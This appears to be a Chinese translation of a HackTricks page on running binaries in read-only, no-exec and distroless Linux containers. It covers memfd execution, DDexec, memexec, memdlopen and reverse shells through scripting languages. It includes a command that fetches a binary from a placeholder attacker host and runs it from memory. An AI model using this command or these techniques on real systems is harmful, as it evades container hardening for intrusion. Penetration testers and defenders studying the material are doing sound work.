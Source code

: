 # 绕过文件系统保护：只读 / 无执行 / Distroless

{{#include ../../../banners/hacktricks-training.md}}

## 视频

在以下视频中，您可以找到本页面提到的技术的更深入解释：

- [**DEF CON 31 - 探索Linux内存操控以实现隐蔽和规避**](https://www.youtube.com/watch?v=poHirez8jk4)
- [**使用DDexec-ng和内存dlopen()进行隐蔽入侵 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## 只读 / 无执行场景

越来越多的Linux机器以**只读（ro）文件系统保护**的方式挂载，特别是在容器中。这是因为运行一个ro文件系统的容器就像在`securitycontext`中设置**`readOnlyRootFilesystem: true`**一样简单：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

然而，即使文件系统以ro方式挂载，**`/dev/shm`**仍然是可写的，因此我们不能写入磁盘的说法是错误的。然而，这个文件夹将会**以无执行保护挂载**，所以如果您在这里下载一个二进制文件，您**将无法执行它**。

> [!WARNING]
> 从红队的角度来看，这使得**下载和执行**系统中尚不存在的二进制文件（如后门或像`kubectl`这样的枚举器）变得**复杂**。

## 最简单的绕过：脚本

请注意，我提到的是二进制文件，您可以**执行任何脚本**，只要解释器在机器内部，例如如果`sh`存在，则可以执行**shell脚本**，或者如果安装了`python`，则可以执行**python脚本**。

然而，这并不足以执行您的二进制后门或您可能需要运行的其他二进制工具。

## 内存绕过

如果您想执行一个二进制文件，但文件系统不允许这样做，最好的方法是通过**从内存中执行它**，因为**保护措施不适用于那里**。

### FD + exec系统调用绕过

如果您在机器内部有一些强大的脚本引擎，例如**Python**、**Perl**或**Ruby**，您可以将二进制文件下载到内存中执行，将其存储在内存文件描述符中（`create_memfd`系统调用），这不会受到这些保护的限制，然后调用**`exec`系统调用**，将**fd作为要执行的文件**。

为此，您可以轻松使用项目[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)。您可以传递一个二进制文件，它将生成一个指定语言的脚本，**二进制文件经过压缩和b64编码**，并包含**解码和解压缩**它的指令，使用调用`create_memfd`系统调用创建的**fd**，以及调用**exec**系统调用来运行它。

> [!WARNING]
> 这在其他脚本语言中不起作用，例如PHP或Node，因为它们没有任何**默认方式从脚本调用原始系统调用**，因此无法调用`create_memfd`来创建**内存fd**以存储二进制文件。
>
> 此外，使用`/dev/shm`中的文件创建**常规fd**也不起作用，因为您将无法运行它，因为**无执行保护**将适用。

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)是一种技术，允许您通过覆盖其**`/proc/self/mem`**来**修改您自己的进程的内存**。

因此，**控制正在被进程执行的汇编代码**，您可以编写**shellcode**并“变异”该进程以**执行任何任意代码**。

> [!TIP]
> **DDexec / EverythingExec**将允许您加载并**执行**您自己的**shellcode**或**任何二进制文件**从**内存**中。
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
有关此技术的更多信息，请查看 Github 或：

{{#ref}}
ddexec.md
{{#endref}}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) 是 DDexec 的自然下一步。它是一个 **DDexec shellcode demonised**，因此每次您想要 **运行不同的二进制文件** 时，您无需重新启动 DDexec，只需通过 DDexec 技术运行 memexec shellcode，然后 **与此守护进程通信以传递要加载和运行的新二进制文件**。

您可以在 [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) 中找到如何使用 **memexec 从 PHP 反向 shell 执行二进制文件** 的示例。

### Memdlopen

与 DDexec 目的相似， [**memdlopen**](https://github.com/arget13/memdlopen) 技术允许以 **更简单的方式在内存中加载二进制文件** 以便后续执行。它甚至可以加载带有依赖项的二进制文件。

## Distroless Bypass

### 什么是 distroless

Distroless 容器仅包含 **运行特定应用程序或服务所需的最低组件**，例如库和运行时依赖项，但排除了较大的组件，如包管理器、shell 或系统实用程序。

Distroless 容器的目标是 **通过消除不必要的组件来减少容器的攻击面**，并最小化可以被利用的漏洞数量。

### 反向 Shell

在 distroless 容器中，您可能 **甚至找不到 `sh` 或 `bash`** 来获取常规 shell。您也不会找到 `ls`、`whoami`、`id` 等二进制文件……您通常在系统中运行的所有内容。

> [!WARNING]
> 因此，您 **将无法** 获取 **反向 shell** 或 **枚举** 系统，如您通常所做的那样。

然而，如果被攻陷的容器正在运行例如 flask web，那么 python 已安装，因此您可以获取 **Python 反向 shell**。如果它正在运行 node，您可以获取 Node rev shell，其他大多数 **脚本语言** 也是如此。

> [!TIP]
> 使用脚本语言，您可以 **使用语言功能枚举系统**。

如果没有 **`read-only/no-exec`** 保护，您可以利用反向 shell **在文件系统中写入您的二进制文件** 并 **执行** 它们。

> [!TIP]
> 然而，在这种类型的容器中，这些保护通常会存在，但您可以使用 **先前的内存执行技术来绕过它们**。

您可以在 [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) 中找到 **示例**，了解如何 **利用一些 RCE 漏洞** 获取脚本语言的 **反向 shell** 并从内存中执行二进制文件。

{{#include ../../../banners/hacktricks-training.md}}
